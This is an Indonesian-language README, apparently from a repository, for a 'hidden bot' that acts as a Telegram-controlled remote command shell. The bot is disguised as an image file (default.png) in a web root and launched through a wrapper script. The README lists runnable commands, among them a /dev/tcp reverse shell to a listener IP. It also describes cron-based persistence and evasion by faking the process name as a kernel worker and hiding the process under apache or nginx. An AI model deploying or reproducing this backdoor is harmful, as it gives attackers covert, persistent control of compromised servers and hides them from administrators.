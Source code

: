 # hidden bot Wrapper Script v1.0


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>
📌 Konsep Wrapper Script dalam Eksekusi Bot Telegram adalah, <br> skrip perantara yang digunakan untuk menjalankan program atau skrip lain secara tidak langsung. <br> Ini berguna untuk menyembunyikan, menyederhanakan, atau mengontrol eksekusi skrip utama.<br>

Dalam kasus ini, kita memiliki: <br>

Skrip utama (default.png) yang sebenarnya adalah bot Telegram, <br> tetapi namanya disamarkan agar terlihat seperti file gambar. <br>
Wrapper script (dockerbot), yang bertindak sebagai perantara untuk menjalankan default.png.

📂 Struktur File
```
/var/www/html/default.png  --> Skrip utama bot (disamarkan sebagai file gambar)
/tmp/img/dockerbot         --> Wrapper script untuk menjalankan default.png
```
📜 Isi Wrapper Script (dockerbot)
```
#!/bin/bash
/var/www/html/default.png
```

📌 Penjelasan:
```
#!/bin/bash → Menentukan bahwa skrip ini dijalankan menggunakan Bash.
/var/www/html/default.png → Memanggil skrip utama bot yang disamarkan sebagai file gambar.
Jadi, setiap kali dockerbot dijalankan, sebenarnya yang terjadi adalah default.png (yang merupakan bot Telegram) akan dieksekusi.
```
<br>
<br>
<br>
<br>


📌cara eksekusi
<br>
1️⃣ Buat file /tmp/img/dockerbot

Isi dengan:

```
#!/bin/bash
/sesuaikan/dengan/lokasi/botpng/default.png
```
2️⃣ Beri izin eksekusi
```
chmod 777 /tmp/img/dockerbot
```

3️⃣ menjalankan bot 

```
bash /tmp/img/dockerbot
```



apasaja yg bisa di jalankan di bot telegram

```
perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


🔥 Fitur systemd
✅ Monitoring bot setiap 5 menit menggunakan cronjob
✅ Jika bot mati, otomatis dijalankan ulang. otomatis
✅ Mengirim pesan saat bot mati (misalnya karena kill, CTRL+C, atau shutdown)

```
<br>
<br>
<br>
<br>
<br>

📌NOTE bot ini masih bisa di modifikasi dengan metode :
```
Ubah Nama Proses di Runtime (Fake Process Name)
exec -a "[kworker/u8:2]" /var/www/html/default.png
💡 Efek: Saat dicek dengan ps aux atau pgrep -af, proses akan terlihat sebagai [kworker/u8:2] (nama biasa untuk kernel worker).

📌Jalankan Proses dengan PPID Palsu
Agar tidak terlihat mencurigakan, bisa jalankan bot di bawah proses parent yang sudah ada, misalnya apache2 atau nginx:
nohup setsid /var/www/html/default.png > /dev/null 2>&1 &
💡 Efek: Bot terlihat sebagai bagian dari apache/nginx saat dicek dengan pstree atau ps.
Dengan kombinasi metode ini, bot jadi lebih stealth tanpa akses root. 🔥
```

